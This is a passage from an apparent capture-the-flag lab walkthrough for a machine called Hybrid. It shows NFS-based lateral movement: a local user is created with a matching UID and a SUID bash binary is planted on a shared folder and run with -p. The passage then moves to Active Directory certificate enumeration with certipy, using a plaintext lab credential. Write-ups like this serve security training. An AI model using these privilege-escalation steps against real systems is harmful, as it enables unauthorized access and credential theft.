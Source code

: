 We move the **bash** file from the shared folder to another one in which we have full permission

```shell
cp shared/bash .
```

From the owned machine we remove the copied **bash**

```shell
rm bash
```
In our local system we can now create a new use with same id as **peter.turner** and let him own the bash file.

```shell
sudo useradd -u 902601108 "peter"
sudo passwd peter
sudo chown peter:peter bash
```

Finally, we can set the suid bit of the bash file and copy it again inside the shared folder:

```shell
su peter

cd shared

cp ../bash .

chmod +s bash
```
Inside the owned machine we can complete the lateral movement by invoking

```shell
./bash -i -p
```

We can now visit the home folder of **peter.turner**, it contains a keepass database that can be opened using the password found earlier inside the shared folder. The database contains the domain credential for the user **peter.turner**

# Exploiting dc01.hybrid.vl

Using **certipy** we can check if this Active Directory setup uses a Certificate Server:

```shell
certipy find -u 'peter.turner' -p 'b0cwR+G4Dzl_rw' -dc-ip 10.10.142.165 -stdout
```

![alt text](/assets/Hybrid/Hybrid-Certipy.png)
